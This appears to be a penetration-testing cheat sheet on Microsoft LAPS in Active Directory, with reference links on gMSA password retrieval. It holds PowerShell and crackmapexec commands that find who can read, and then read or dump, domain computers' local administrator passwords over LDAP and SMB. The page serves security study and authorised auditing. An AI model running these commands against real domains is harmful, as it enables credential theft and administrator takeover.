 ### References
- [https://aadinternals.com/post/gmsa/](https://aadinternals.com/post/gmsa/)
- [https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
- [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-7.0](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-7.0)


# LAPS
LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES       

When using LAPS, 2 new attributes appear in the computer objects of the domain: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Commands
```powershell
# Check if LAPS is activated
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## Dumping credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```

### References
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)
- [https://www.crackmapexec.wiki/smb-protocol/defeating-laps](https://www.crackmapexec.wiki/smb-protocol/defeating-laps)
- [https://www.infosecmatter.com/crackmapexec-module-library/?cmem=ldap-laps](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=ldap-laps)
